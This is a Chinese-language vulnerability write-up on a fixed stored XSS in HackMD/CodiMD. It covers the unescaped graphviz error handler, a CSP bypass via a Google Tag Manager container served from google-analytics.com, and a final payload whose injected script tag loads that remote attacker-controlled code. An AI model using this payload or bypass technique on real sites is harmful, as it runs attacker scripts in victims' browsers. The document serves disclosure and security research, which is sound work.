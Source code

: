 HackMD Stored XSS & Bypass CSP with Google Tag Manager
===

前一陣子 Orange 發表了一篇 [A Wormable XSS on HackMD!
](https://blog.orange.tw/2019/03/a-wormable-xss-on-hackmd.html)

剛好在那之前有跟著研究了一下這個漏洞，學習到了很多有關於 CSP 繞過的奇技淫巧

當然這次利用到的 `Google Tag Manager` 我覺得也是一個蠻有趣的繞過方式，在後面也會藉此順便聊聊整個測試的思路以及最後怎麼利用 Google Tag Manager 繞過 CSP 並最終觸發 Stored XSS 

比較有趣的是，上次在 Review `CodiMD` 的 Repo 之後，我本來以為已經沒有相較之下比較高風險的弱點了，但沒想到藉由夥伴意外的發現，重新仔細 Review 原始碼之後，竟然還發現有幾個已經存在兩年多的程式碼都沒有妥善的 escape，也就因此導致本次的 Stored XSS，這也告訴我們漏洞總會藏在我們意想不到的地方，並不是我們單方面認為沒漏洞就沒有的 XDDD


## 漏洞成因

最初會注意到這個漏洞，是因為朋友 HexRabbit 約在 3 月底發現同學利用 `graphviz` 語法撰寫 flowchart 時，在語法錯誤的情況下會額外跳出一個含有錯誤訊息的小方塊，並意外發現錯誤訊息中的 tag 並沒有被 filter，而且可以插入任意的 html，錯誤訊息如下方範例: 

![](https://i.imgur.com/5RjrFH3.png)

我們仔細追一下[原始碼](https://github.com/hackmdio/codimd/blob/1434cdb6b2e89cc771913ea1bd2c44779206196c/public/js/extra.js#L360)，會發現處理 graphviz 的部分為以下程式碼：
```=javascript=1
  // graphviz
  var graphvizs = view.find('div.graphviz.raw').removeClass('raw')
  graphvizs.each(function (key, value) {
    try {
      var $value = $(value)
      var $ele = $(value).parent().parent()

      var graphviz = Viz($value.text())
      if (!graphviz) throw Error('viz.js output empty graph')
      $value.html(graphviz)

      $ele.addClass('graphviz')
      $value.children().unwrap().unwrap()
    } catch (err) {
      $value.unwrap()
      $value.parent().append('<div class="alert alert-warning">' + err + '</div>')
      console.warn(err)
    }
})
```

我們可以發現在 `$value.parent().append('<div class="alert alert-warning">' + err + '</div>')` 的地方，當發生錯誤時會直接 append `err` 訊息到 html 之中，完全沒有做任何的 escape，換句話說，我們只要想辦法在 error message 塞入惡意的 HTML 程式碼，就可以去任意執行 JavaScript

另外一個部分就是，在測試的過程中，我發現這個 Stored XSS 還是有所限制的，最大長度只能輸入到 82 個字，再多就會被吃掉，也就是我們還要想辦法在 82 個字以內完成任意 JavaScript 的執行（其實一開始想到這邊我就有點卡住了，因為繞 CSP 構造的 Gadgets 或 jsonp 照經驗來說都會超過這個長度...）

## CSP Bypass

雖然我們得到了一個 Stored XSS，但是沒有預期的彈窗，我們從 Console 以及過往的經驗可以得知 HackMD 是有配置 CSP(Content Security Policy) 來阻擋未經授權的 JavaScript 執行的！而現階段的 CSP 代碼如下：

```
script-src 'self' vimeo.com https://gist.github.com www.slideshare.net 'unsafe-eval' 
https://assets.hackmd.io https://www.google.com https://apis.google.com https://docs.google.com 
https://www.dropbox.com https://*.disqus.com https://*.disquscdn.com https://www.google-analytics.com 
https://stats.g.doubleclick.net https://secure.quantserve.com https://rules.quantcount.com https://pixel.quantserve.com 
https://js.driftt.com https://embed.small.chat https://static.small.chat https://www.googletagmanager.com 
https://cdn.ravenjs.com https://browser.sentry-cdn.com 'nonce-6fea8a60-c394-470c-86bd-73259adc065d' 
'sha256-EtvSSxRwce5cLeFBZbvZvDrTiRoyoXbWWwvEVciM5Ag=' 'sha256-NZb7w9GYJNUrMEidK01d3/DEtYztrtnXC/dQw7agdY4=' 
'sha256-L0TsyAQLAc0koby5DCbFAwFfRs9ZxesA+4xg0QDSrdI='; img-src * data:; style-src 'self' 'unsafe-inline' 
https://assets-cdn.github.com https://github.githubassets.com https://assets.hackmd.io https://www.google.com 
https://fonts.gstatic.com https://*.disquscdn.com https://static.small.chat; font-src 'self' data: 
https://public.slidesharecdn.com https://assets.hackmd.io https://*.disquscdn.com; object-src *; media-src *; 
frame-src *; child-src *; connect-src *; base-uri 'none'; form-action 'self' https://www.paypal.com; upgrade-insecure-requests
```

雖然 `unsafe-eval` 還在，但最難過的是 `https://cdnjs.cloudflare.com` 已經從 CSP 被拿掉了，所以我們不能使用這個方便的 domain 來 exploit，那還有什麼招可以使用呢？我們還是先把這條 CSP Rule 擺上 Google 提供的 [CSP Evaluator](https://csp-evaluator.withgoogle.com/) 來檢核

![](https://i.imgur.com/65mrIIH.png)

我們可以發現網站很快地列出了一些高風險的 domain 提供測試，但我們要如何快速的知道這些 domain 該如何利用呢？

我們可以直接到 Google 在 GitHub 上的專案 `csp-evaluator` 上面尋找，於是我們透過[此專案](https://github.com/google/csp-evaluator/blob/master/whitelist_bypasses/json/jsonp.json)在 `whitelist_bypasses/json/jsonp.json` 目錄下的檔案，很快的知道其中三個 domain 的 jsonp 該如何使用：

* Viemo 
    * 長度過長，而且無法有效地控制內容
    * https://vimeo.com/api/oembed.json?format=json&callback=alert&url=https://vimeo.com/286898202

* www.google.com
    * 沒找到有效控制內容的方式
    * https://www.google.com/tools/feedback/escalation-options?callback=alert

* disqus
    * 無法有效控制內容
    * https://links.services.disqus.com/api/ping?format=jsonp&key=cfdfcf52dffd0a702a61bad27507376d


以上這三個 domain 在測試過後都無法有效利用（也可能是我沒有找到正確的方法，還請各位多多指教），而另外兩個為 Google Tag Manager 的服務，分別是 `www.googletagmanager.com` 以及 `www.google-analytics.com`，之前查詢資料的過程中，曾經看到 kobo 的這篇部落格[Content Security Policy Level 3におけるXSS対策](https://inside.pixiv.blog/kobo/5137)

![csp](https://inside.pixiv.blog/wp-content/uploads/2018/10/csp-bypass-chart.png)

CSP rule 如果在 `script-src` 同時有 `www.google-analytics.com` 以及 `unsafe-eval` 的話，就可以執行任意的 JavaScript，到這裡還不是很確定是否可以 Exploit，於是我們馬上動手試試，首先開啟 Google Tag Manager，設定一個變數，並放入你想要執行的 JavaScript

![](https://i.imgur.com/K863Bl0.png)

接著開啟代碼設定，將這個變數放入任一位置（只要讓變數載入就好），並設定觸發事件

![](https://i.imgur.com/MtfzBku.png)

產生完畢後會得到屬於你的 GA link：
* https://www.google-analytics.com/gtm/js?id=GTM-P49RD4V

最後只要放入原本就有支援 GA 的 HackMD，我們就會發現 JavaScript 程式碼被執行

至此，我們就成功繞過 CSP 以及能夠執行任意長度的代碼了！以下是最終代碼：

```
```graphviz
graph<<script src="https://www.google-analytics.com/gtm/js?id=GTM-P49RD4V">

```

Demo 影片如下： https://www.youtube.com/watch?v=m8Q9hX9jBFM

## 後記

當看到 `unsafe-eval` 的時候，其實第一篇想到的是 [Breaking XSS mitigations via Script Gadgets](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf)，但最尷尬的是這次的 XSS 限制 82 bytes，串起一個 Gadgets 很容易就超過了，所以一開始就沒有往這個方向挖掘 XD

另外這個漏洞已經修復了，可以參考此 [Pull Request](https://github.com/hackmdio/codimd/pull/1193)

最後感謝 [@HexRabbit](https://github.com/HexRabbit/) 發現這個 XSS 的注入點，讓我們能發現好玩的方法 Bypass CSP！
